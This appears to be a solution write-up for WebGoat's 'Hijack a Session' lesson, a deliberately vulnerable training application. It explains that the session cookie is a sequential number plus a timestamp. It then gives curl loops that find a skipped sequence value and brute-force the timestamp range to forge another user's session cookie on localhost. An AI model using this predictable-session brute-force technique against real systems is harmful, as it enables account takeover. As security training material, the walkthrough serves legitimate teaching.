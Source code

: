 = Hijack a Session

== Solution

Some standard Linux tools have been used on this solution.

=== Analysis

Inspect the 'hijack_cookie' cookie value:

[source, text]
----
3814082160704930327-1636910266991
----

The 'hijack_cookie' is divided in two parts and has the following format:

**<sequential number>-<unix epoch time>**

The first part of the cookie value is an identifier that increases by 1 in each cookie, and the part after the dash is a time value that is calculated when the request is submitted.

Notice that there is sometimes a gap in the first value of the 'hijack_cookie', where one number (or more) is skipped. The missing value means that possibly some user logged in into the system and an authorized cookie has been generated and assigned to him.

It's simple to spot where this value is if we know the cookie values between this valid user cookie.

=== Brute forcing

Send some clean request (without setting the hijack_cookie) to the /WebGoat/HijackSession/login endpoint.

[source, sh]
----
# command
for i in $(seq 1 10); do 
curl 'http://localhost:8080/WebGoat/HijackSession/login'   \
-H 'Connection: keep-alive'   \
-H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90"'   \
-H 'Accept: */*'   \
-H 'X-Requested-With: XMLHttpRequest'   \
-H 'sec-ch-ua-mobile: ?0'   \
-H 'User-Agent: any'   \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'   \
-H 'Origin: http://localhost:8080'   \
-H 'Sec-Fetch-Site: same-origin'   \
-H 'Sec-Fetch-Mode: cors'   \
-H 'Sec-Fetch-Dest: empty'   \
-H 'Referer: http://localhost:8080/WebGoat/start.mvc'   \
-H 'Accept-Language: en-US,en;q=0.9'   \
-H "Cookie: JSESSIONID=T_kki1UnFP7XTxdEqX-XmZ25qgmKDFtqyoeHyQhW"   \
--data-raw 'username=&password='   \
--compressed \
--output /dev/null \
-v
done

# cookies
<...>
< Set-Cookie: hijack_cookie=3026815832223943295-1636913556701; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943296-1636913556848; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943297-1636913556998; path=/WebGoat; secure
< Set-Cookie: hijack_cookie=3026815832223943299-1636913557143; path=/WebGoat; secure
<...>
----

Note: a valid WebGoat JSESSIONID has to be used. It can be obtained after logging in into WebGoat.

The 'hijack_cookie' beginning with 3026815832223943298 is missing. This is the value we want, we just need to figure out the second part.

So our timestamp is between 1636913556998 and 1636913557143. Now we just need a program to do brute force this for us.

[source, sh]
----
for i in $(seq 1636913556998 1636913557143); do
curl 'http://localhost:8080/WebGoat/HijackSession/login'   \
-H 'Connection: keep-alive'   \
-H 'sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90"'   \
-H 'Accept: */*'   \
-H 'X-Requested-With: XMLHttpRequest'   \
-H 'sec-ch-ua-mobile: ?0'   \
-H 'User-Agent: any'   \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'   \
-H 'Origin: http://localhost:8080'   \
-H 'Sec-Fetch-Site: same-origin'   \
-H 'Sec-Fetch-Mode: cors'   \
-H 'Sec-Fetch-Dest: empty'   \
-H 'Referer: http://localhost:8080/WebGoat/start.mvc'   \
-H 'Accept-Language: en-US,en;q=0.9'   \
-H "Cookie: JSESSIONID=T_kki1UnFP7XTxdEqX-XmZ25qgmKDFtqyoeHyQhW; hijack_cookie=3026815832223943298-"$i""   \
--data-raw 'username=&password='   \
--compressed
done
----

One of those requests will be a valid login and the lesson will be marked as completed.
